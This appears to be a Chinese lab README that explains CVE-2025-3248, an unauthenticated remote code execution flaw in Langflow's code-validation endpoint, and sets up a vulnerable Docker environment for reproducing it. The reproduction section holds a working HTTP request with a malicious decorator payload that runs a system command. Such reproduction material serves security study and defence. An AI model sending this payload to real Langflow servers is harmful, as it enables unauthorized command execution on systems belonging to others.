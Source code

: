 # Langflow `validate/code` API未授权远程代码执行漏洞（CVE-2025-3248）

Langflow是一个流行的开源AI工作流可视化工具，允许用户通过Web界面拖拽式构建基于Python的智能体和数据处理流程。

在1.3.0版本之前，Langflow存在一个严重的未授权远程代码执行漏洞（CVE-2025-3248）。`/api/v1/validate/code`接口原本用来校验用户提交的Python代码是否合法，其内部通过`ast`解析代码后，使用`exec`执行所有函数定义。然而，Python的装饰器和默认参数表达式也会在函数定义时被执行，攻击者可以通过精心构造的装饰器或默认参数，在未授权的情况下实现任意代码执行。

参考链接：

- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://github.com/langflow-ai/langflow/pull/6911>

## 环境启动

执行如下命令启动Langflow 1.2.0漏洞环境：

```
docker compose up -d
```

服务启动后，Web界面可通过`http://your-ip:7860`访问。你可以通过默认账号`administrator:vulhub`登录管理后台。

## 漏洞复现

直接向`/api/v1/validate/code`接口发送包含恶意装饰器的Python函数定义，即可来实现远程命令执行：

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

![](1.png)
